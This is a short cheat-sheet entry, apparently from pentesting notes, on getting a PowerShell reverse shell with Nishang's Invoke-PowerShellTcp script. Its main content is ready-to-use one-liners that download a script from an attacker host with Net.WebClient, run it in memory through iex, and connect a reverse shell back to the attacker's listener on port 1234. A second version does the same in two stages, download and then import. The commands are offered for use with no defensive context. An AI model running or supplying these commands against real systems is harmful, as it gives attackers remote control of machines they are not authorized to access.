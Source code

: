 # powershell

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 1234
```

Or the same but in stages

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/rev.ps1')
powershell Import-Module ./rev.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 1234
```